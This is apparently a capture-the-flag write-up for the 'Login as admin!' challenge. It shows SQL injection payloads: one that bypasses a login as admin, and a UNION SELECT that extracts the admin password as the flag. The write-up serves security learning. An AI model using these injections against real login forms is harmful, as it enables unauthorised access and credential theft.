 # Login as admin!

## Problem

Login as admin. And get the flag! The flag is the password of admin.

http://arrive.chal.mmactf.link/login.cgi

You can use test:test.

## Solution

Commendation: @emedvedev

The form contains an easy SQL injection and you can login as admin with entering `admin' --` in the username field.

```
Congratulations!!
You are admin user.
The flag is your password!
```

There's a username in the output, so we get a password with another injection angle: using a `UNION SELECT` instead of username.

Login with `' union select (SELECT password FROM user WHERE user='admin'),2--`. You'll see the flag:

```
You are MMA{cats_alice_band} user.
```

## Flag

MMA{cats_alice_band}
